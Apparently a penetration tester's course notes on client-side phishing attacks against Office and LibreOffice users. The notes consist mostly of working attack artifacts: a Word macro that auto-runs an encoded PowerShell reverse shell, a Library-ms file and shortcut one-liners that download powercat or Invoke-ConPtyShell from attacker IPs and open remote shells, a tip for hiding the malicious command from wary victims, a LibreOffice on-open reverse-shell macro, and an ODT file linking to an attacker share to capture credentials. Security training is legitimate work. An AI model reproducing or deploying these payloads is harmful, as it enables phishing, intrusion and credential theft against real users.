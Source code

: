#windows #macro

### Microsoft Office

🔴 Save the Macro in the same document not for all documents.

#### Split script

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMQA5AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMQA5ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

#### Macro

```VB
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADQANQAuADIAMQA5AC8AcABvAHcAZQByAGMAY"
	Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
	Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMQA5ACAALQBwA"
	Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
	Str = Str + "A"
    CreateObject("Wscript.Shell").Run Str
End Sub
```





### Library Files

```bash
pip3 install wsgidav
```

If the installation of WsgiDAV fails with **error: externally-managed-environment**, we can use a _virtual environment_[3](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/client-side-attacks/abusing-windows-library-files/obtaining-code-execution-via-windows-library-files#fn3) or add **--break-system-packages** to the install command. In _PEP 668_,[4](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/client-side-attacks/abusing-windows-library-files/obtaining-code-execution-via-windows-library-files#fn4) a change was introduced to enforce the use of virtual environments and prevent situations in which package installations via pip break the operating system.

```bash
mkdir /home/kali/webdav
```

```bash
touch /home/kali/webdav/test.txt
```

```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

🔴 File Extension -  config.Library-ms
- this will be attached in the email for user to double click, it opens our WebDav directory

```XML
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.236</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

##### Create a Shortcut file with below command
- .lnk file for the user to see when he clicks on the  
- If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.

```powershell
powershell.exe  -WindowStyle hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.164:8000/powercat.ps1'); powercat -c 192.168.45.164 -p 4444 -e powershell"
```
powershell.exe -nop -w hidden IEX(IWR http://192.168.45.209:443/Windows_Tools/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.209 445

### Libre Office

#### Macro Attack

1. Save the document first. 
2. Tools -> Macros -> Edit Macros -> save it in the document

```vb
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell IEX(IWR http://192.168.225.128/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.225.128 443",0)

End Sub
```

![[Pasted image 20231006120559.png]]
3. Tools->customize->events-> Open Document and add the previous macro then save.

#### Credential Harvesting

1.  Save the Document in the LibreOffice
2. Insert-> OLE Object -> OLE Object
3. Unzip the ODT file and check the content.xml
4. Edit the file path to FIle share path of  KALI. (Ex: file:\//192.168.45.228/hey.txt)

```
<?xml version="1.0" encoding="UTF-8"?>
<office:document-content xmlns:office="urn:oasis:names:tc:opendocument:xmlns:office:1.0" xmlns:ooo="http://openoffice.org/2004/office" xmlns:fo="urn:oasis:names:tc:opendocument:xmlns:xsl-fo-compatible:1.0" xmlns:xlink="http://www.w3.org/1999/xlink" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:meta="urn:oasis:names:tc:opendocument:xmlns:meta:1.0" xmlns:style="urn:oasis:names:tc:opendocument:xmlns:style:1.0" xmlns:text="urn:oasis:names:tc:opendocument:xmlns:text:1.0" xmlns:rpt="http://openoffice.org/2005/report" xmlns:draw="urn:oasis:names:tc:opendocument:xmlns:drawing:1.0" xmlns:dr3d="urn:oasis:names:tc:opendocument:xmlns:dr3d:1.0" xmlns:svg="urn:oasis:names:tc:opendocument:xmlns:svg-compatible:1.0" xmlns:chart="urn:oasis:names:tc:opendocument:xmlns:chart:1.0" xmlns:table="urn:oasis:names:tc:opendocument:xmlns:table:1.0" xmlns:number="urn:oasis:names:tc:opendocument:xmlns:datastyle:1.0" xmlns:ooow="http://openoffice.org/2004/writer" xmlns:oooc="http://openoffice.org/2004/calc" xmlns:of="urn:oasis:names:tc:opendocument:xmlns:of:1.2" xmlns:xforms="http://www.w3.org/2002/xforms" xmlns:tableooo="http://openoffice.org/2009/table" xmlns:calcext="urn:org:documentfoundation:names:experimental:calc:xmlns:calcext:1.0" xmlns:drawooo="http://openoffice.org/2010/draw" xmlns:xhtml="http://www.w3.org/1999/xhtml" xmlns:loext="urn:org:documentfoundation:names:experimental:office:xmlns:loext:1.0" xmlns:field="urn:openoffice:names:experimental:ooo-ms-interop:xmlns:field:1.0" xmlns:math="http://www.w3.org/1998/Math/MathML" xmlns:form="urn:oasis:names:tc:opendocument:xmlns:form:1.0" xmlns:script="urn:oasis:names:tc:opendocument:xmlns:script:1.0" xmlns:formx="urn:openoffice:names:experimental:ooxml-odf-interop:xmlns:form:1.0" xmlns:dom="http://www.w3.org/2001/xml-events" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:grddl="http://www.w3.org/2003/g/data-view#" xmlns:css3t="http://www.w3.org/TR/css3-text/" xmlns:officeooo="http://openoffice.org/2009/office" office:version="1.3"><office:scripts/><office:font-face-decls><style:font-face style:name="Arial" svg:font-family="Arial" style:font-family-generic="swiss"/><style:font-face style:name="Arial1" svg:font-family="Arial" style:font-family-generic="system" style:font-pitch="variable"/><style:font-face style:name="Liberation Sans" svg:font-family="&apos;Liberation Sans&apos;" style:font-family-generic="swiss" style:font-pitch="variable"/><style:font-face style:name="Liberation Serif" svg:font-family="&apos;Liberation Serif&apos;" style:font-family-generic="roman" style:font-pitch="variable"/><style:font-face style:name="Microsoft YaHei" svg:font-family="&apos;Microsoft YaHei&apos;" style:font-family-generic="system" style:font-pitch="variable"/><style:font-face style:name="NSimSun" svg:font-family="NSimSun" style:font-family-generic="system" style:font-pitch="variable"/></office:font-face-decls><office:automatic-styles><style:style style:name="P1" style:family="paragraph" style:parent-style-name="Standard"><style:text-properties officeooo:rsid="0014bb86" officeooo:paragraph-rsid="0014bb86"/></style:style><style:style style:name="fr1" style:family="graphic" style:parent-style-name="OLE"><style:graphic-properties style:horizontal-pos="center" style:horizontal-rel="paragraph" draw:ole-draw-aspect="1"/></style:style></office:automatic-styles><office:body><office:text><text:sequence-decls><text:sequence-decl text:display-outline-level="0" text:name="Illustration"/><text:sequence-decl text:display-outline-level="0" text:name="Table"/><text:sequence-decl text:display-outline-level="0" text:name="Text"/><text:sequence-decl text:display-outline-level="0" text:name="Drawing"/><text:sequence-decl text:display-outline-level="0" text:name="Figure"/></text:sequence-decls><text:p text:style-name="P1">CV 2</text:p><text:p text:style-name="P1"><draw:frame draw:style-name="fr1" draw:name="Object1" text:anchor-type="char" svg:width="5.5516in" svg:height="3.9366in" draw:z-index="0"><draw:object xlink:href="file://192.168.45.228/hey.txt" xlink:type="simple" xlink:show="embed" xlink:actuate="onLoad"/><draw:image xlink:href="./ObjectReplacements/Object 1" xlink:type="simple" xlink:show="embed" xlink:actuate="onLoad"/></draw:frame></text:p></office:text></office:body></office:document-content>

```
